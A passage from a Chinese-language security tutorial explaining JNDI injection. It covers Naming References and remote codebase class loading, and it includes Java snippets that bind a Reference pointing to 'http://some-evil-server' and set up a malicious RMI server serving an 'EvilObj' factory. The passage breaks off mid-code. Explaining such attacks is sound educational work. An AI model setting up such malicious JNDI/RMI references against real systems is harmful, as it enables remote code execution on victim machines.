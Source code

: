 JNDI方便了与naming service和Directory service的交互，通过指定特定的URL即可与不同的服务进行交互。相当于对这些服务的API又进行了一次封装供开发人员使用。其中JNDI中也存在上述RMI codebase的动态加载机制，并且其配置同底层的RMI配置并不相关。

[![](https://p4.ssl.qhimg.com/t01316219a49d6d613b.png)](https://p4.ssl.qhimg.com/t01316219a49d6d613b.png)

从上述的构架来看，动态加载发生于两个部分，Naming Manager和JNDI SPI。这里SPI部分就是相对应的服务的配置，比如前文提到的RMI的限制就是SPI部分的。而Naming Manager也存在一个动态加载机制并且其在修复前并无限制，这里Naming Manager部分用到的是JNDI的Naming References

> In order to bind Java objects in a Naming or Directory service, it is possible to use Java serialization to get the byte array representation of an object at a given state. However, it is not always possible to bind the serialized state of an object because it might be too large or it might be inadequate.
For such needs, JNDI defined **Naming References** (or just References from now on) so that objects could be stored in the Naming or Directory service indirectly by binding a reference that could be decoded by the Naming Manager and resolved to the original object.
[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)

这里提到由于某些情况不能直接将远程obj返回，所以JNDI提出了Naming References的方法，返回相应的Reference而不返回具体的obj。统一由JNDI的请求端去加载指定的地址上的obj。这里加载方法中就包括远程codebase的方法，来看个例子

```
String FactoryURL = "http://some-evil-server";
Reference reference = new Reference("MyClass","MyClass",FactoryURL);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
ctx.bind("Foo", wrapper);// 绑定reference
```

请求端以lookup请求上述绑定的RMI服务即可。其处理过程引用[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)

[![](https://p1.ssl.qhimg.com/t0123277dbdb01dfcd3.png)](https://p1.ssl.qhimg.com/t0123277dbdb01dfcd3.png)



## 0x02 原理

### <a class="reference-link" name="JNDI%20with%20RMI%20DEMO"></a>JNDI with RMI DEMO

为了更好的说明，以下面的代码为例

```
package train.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class Server `{`

    public static void main(String[] args) throws Exception `{`
        Registry registry = LocateRegistry.createRegistry(1099);

        String FactoryURL = "http://localhost/";
        Reference reference = new Reference("EvilObj","EvilObj",FactoryURL);
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("Foo", wrapper);
```